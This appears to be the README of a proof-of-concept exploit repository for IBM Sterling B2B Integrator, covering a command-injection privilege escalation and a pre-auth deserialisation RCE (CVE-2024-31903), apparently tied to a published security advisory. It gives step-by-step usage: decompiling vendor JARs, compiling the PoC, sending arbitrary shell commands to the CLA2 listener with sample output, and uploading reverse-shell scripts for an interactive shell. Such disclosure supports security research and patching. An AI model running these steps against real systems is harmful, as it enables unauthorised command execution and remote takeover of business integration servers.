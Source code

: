 # IBM Sterling B2B Integrator PoC

Proof of concept code for the exploitation of the vulnerabilities discovered against IBM Sterling B2B Integrator, versions 6.2.0.0 to 6.2.0.2, and 6.0.0.0 to 6.1.2.5 for Linux, Windows and AIX systems:

- LPE Command Injection - if authentication is disabled
- Pre-auth Deserialisation RCE - assigned CVE-2024-31903, see the relevant IBM advisory here: https://www.ibm.com/support/pages/node/7172233 
 
More details about these issues can be found in the accompanying blog post: 
https://labs.withsecure.com/advisories/ibm-b2b-integrator


## Repo Structure

Most of this code in this repo refers to the LPE command injection attack.

The Python binary client `bin_clien.py` can be used to send messages manually to CLA2, allowing exploitation of the deserialisation RCE vulnerability. 


## Usage

```bash
$ java Main
$ Usage: Main <cmdLine> <outfile_or_SEND>
```

The PoC accepts two parameters:
- The shell command to be executed by the target CLA2 client
- A path to write the serialised Java message, or "SEND" to send it immediately to 127.0.0.1:5052, where CLA2 client is listening on


## Instructions 

The source code included in this repository is deliberately incomplete, as certain classes from the CLA2 susbystem are required. Depending on filesystem permissions of the installation directory, you might be able to access the JAR files 

Assuming you have retrieved the relevant files from the JAR decompilation. Will not be uplaoded here as they constitute IBM IP

1. Decompile `CLA2Client.jar` and `CLA2Server.jar` 

2. In the decompiled code, locate files `CmdLine2Result.java` and `CmdLine2Parms.java` 

3. Copy and paste them next to `Main.java` to replicate the directory structure of the original application's java package

```
/src/com/sterlingcommerce/woodstock/services/cmdline2/
```

4. Compile the PoC program - ideally using the JDK packaged by the application 

```bash
${B2BHOME}/INSTALL/jdk/bin/javac src/com/sterlingcommerce/woodstock/services/cmdline2/*.java
```

5.	Execute it - again, using the JDK packaged by the application if possible

```bash
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main '/bin/sh -c "id > /tmp/withsecureresult"' SEND  
[+] Creating object...  
[+] Sending object...  
[+] ...Sent!  
[+] Receiving header...  
[+] ...header received:  
RESULT  
[+] Receiving result...  
[+] Result received:  
##[DEBUG]## CmdLine2Result:  
fileSize=0  
outputNameLong=null  
outputNameShort=null  
******* end of CmdLine2Result *******  
```

6.	(Optional) To obtain a fully interactive shell, upload the `revshell.py` and `revshell_listener.py` scripts onto the target system, and start the listener. Then, replace the PoC's command parameter with an invocation of the reverse shell script as below:   

```bash 
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main 'python3 /tmp/revshell.py' SEND
```

